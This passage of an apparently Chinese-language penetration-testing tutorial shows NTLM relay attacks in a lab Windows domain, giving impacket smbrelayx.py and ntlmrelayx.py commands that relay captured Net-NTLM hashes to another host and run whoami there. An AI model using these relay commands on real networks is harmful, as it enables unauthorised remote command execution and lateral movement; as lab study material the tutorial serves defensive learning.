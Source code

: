 攻击完成后，会在目标机器启动目录下生成一个 test.txt 文件，如图所示

![截图](81322d06bec09403a6bca06688fc5b46.png)

#### （2）域环境

在域环境中，默认普通域用户可以登录除域控外的其他所有机器，因此可以将域用户的 Net-NTLM Hash Relay 到域内的其他机器。

##### 1）impacket 下的 smbrelayx.py

运行 smbrelayx.py 脚本执行如下命令，该脚本接收域用户的 Net-NTLM Hash，然后 Relay 到域内其他机器执行指定命令。

```
python3 smbrelayx.py -h 10.211.55.16 -c whoami
```

如图所示，接收来自 10.211.55.5 的流量，Relay 到 10.211.55.16 机器，执行whoami 命令成功！

![截图](f7dd6e86e6629211467708deb5b6cc4a.png)

##### 2）impacket 下的 ntlmrelayx.py

```
python3 ntlmrelayx.py -t smb://10.211.55.16 -c whoami -smb2support
```

如图所示，接收来自 10.211.55.5 的流量，Relay 到 10.211.55.16 机器，执行whoami 命令成功！

